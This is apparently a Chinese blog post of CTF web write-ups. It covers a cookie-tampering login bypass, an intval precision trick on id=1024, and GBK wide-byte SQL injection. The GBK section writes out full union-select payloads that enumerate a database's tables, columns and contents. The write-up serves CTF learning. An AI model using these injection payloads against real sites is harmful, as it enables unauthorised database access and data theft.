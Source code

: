 <!--yml
category: 未分类
date: 2022-04-26 14:19:04
-->

# CG-CTF WEB 解题记录 11-15_aap49042的博客-CSDN博客

> 来源：[https://blog.csdn.net/aap49042/article/details/102388441/](https://blog.csdn.net/aap49042/article/details/102388441/)

#### 写了一部分的web题，算是把它最基础的一部分做了一遍，以后的几天将持续更新CG-CTF WEB部分的题解，为了不影响阅读，所以每五道题的题解以一篇文章的形式发表，感谢大家一直以来的支持和理解，共勉~~~

### Download~!

![](img/b860e37a876d9838ed3c8a9583a66c8f.png)

这个题题库出现了问题，暂时不能访问，随后更新

### COOKIE

![](img/2e12fb93a54effd6303f857d826b0067.png)

打开题目，看到一条提示，0=not，随后我们打开网页 

提示我们please login fist 继续登陆，我们知道cookie就是储存登陆信息的。

这个题目也就是考察cookie，打开BP，抓一下数据包

![](img/c23637a90e796d467ee9be9e8538f14d.png)

将Login改为1即可得到flag

### MYSQL

![](img/b7e5cea5dcac6f79704a561db9582386.png)

打开题目，给了一条提示Do you know robots.txt？下边是一条百度百科链接 ，查看一下并没有有用的东西

联想以下这个题目，mysql，提示又是Do you know robots.txt？我们知道robots.txt这里的内容吗？？？

于是乎我们查看一下看能不能打开

```
http://chinalover.sinaapp.com/web11/robots.txt
```

```
TIP:sql.php <?php if($_GET[id]) { mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS); mysql_select_db(SAE_MYSQL_DB); $id = intval($_GET[id]); $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'")); if ($_GET[id]==1024) { echo "<p>no! try again</p>";
  } else{ echo($query[content]);
  }
} ?>
```

查看到的是这样的代码 ，我们一点一点的提取有用信息

sql.php      并以get形式传输一个id的值T题目中提示了一个1024

那我们就根据提示试一试看能不能得到flag

```
http://chinalover.sinaapp.com/web11/sql.php?id=1024
```

提示no! try again，让我们继续尝试，我们继续使用不同id值进行传输，提示no msg in或者no more

而且大于1025小于1020的id值没有任何返回信息

这个时候我们再回到1024，考虑到内容很大可能就在1024的id里边，但根据代码判断不能是1024才显示

那我们就要想有什么可以等效1024，但不等于1024

那很容易想到时mysql的精度问题，输入1024.9试试

flag就出来了

### GBK Injection

![](img/338a1bb139579f5b307bc4036573de78.png)

打开题目，我们观察时候首先想到的是改一下id的值看能不能得到答案

改为二之后出现了这样的一段字符gbk_sql_injection

联想提目标题也是GBK injection  这道题就是GBK的宽字符注入了

其他的不说了，直接上文字教程了

爆库id=1%df' union select 1,database %23得到库名 sae-chinalover

爆表id=%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() %23 爆表
得到表名 ctf,ctf2,ctf3,ctf4,news
暴字段ctf2表 %df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x63746632 %23
得到字段名 id,content（别问我为啥选ctf2表，一个一个试出来的）
暴内容 id=%df' union select 1,group_concat(id,0x3a,content) from ctf2 %23

**之后就能得到flag了**